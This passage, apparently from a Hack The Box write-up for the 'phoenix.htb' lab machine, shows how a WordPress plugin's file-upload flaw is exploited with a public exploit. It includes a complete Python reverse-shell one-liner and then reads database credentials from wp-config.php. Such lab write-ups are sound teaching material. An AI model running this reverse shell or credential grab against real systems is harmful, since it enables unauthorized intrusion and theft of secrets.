 I tried checking exploits for accordion and adminize but they were way too old so I looked up exploit on `download-from-files` and it was having a recent vulnerability regarding arbitary file upload

https://www.exploit-db.com/exploits/50287

<img src="https://i.imgur.com/OGDEqNW.png"/>

To exploit this, we need to make a php file with a extension `.phtml`

<img src="https://i.imgur.com/zCkx7FJ.png"/>

After running the exploit it's going to give us an error regarding verfication of the ssl certificate and would fail to make a request, so we need to add `verify=false` when making a GET and POST request to phoenix.htb

<img src="https://i.imgur.com/bCiK8Ve.png"/>

<img src="https://i.imgur.com/iS7i5EI.png"/>

<img src="https://i.imgur.com/Rs2SCTW.png"/>

And after making those changes it should upload the php file

<img src="https://i.imgur.com/p2QFIHa.png"/>

<img src="https://i.imgur.com/Zbg4KQq.png"/>

Using a python3 one liner to get a reverse shell

```python
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.124",2222));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

<img src="https://i.imgur.com/T1Kmi5W.png"/>

After getting a shell, stabilizing it through `stty raw -echo` and `fg`

<img src="https://i.imgur.com/5SN3hIO.png"/>

Being in wordpress directory, we can read the database password from `wp-config.php`

<img src="https://i.imgur.com/duIh9ER.png"/>

<img src="https://i.imgur.com/5F8nSEF.png"/>

But when trying to change user it's going to ask us a verification code 

<img src="https://i.imgur.com/jI1zXmu.png"/>

So there's a 2FA but I wasn't able to find any secret with which I could generate the TOTP or OTP so I decide to look around and found a plugin in wordpress plugins 

<img src="https://i.imgur.com/Om18e7n.png"/>
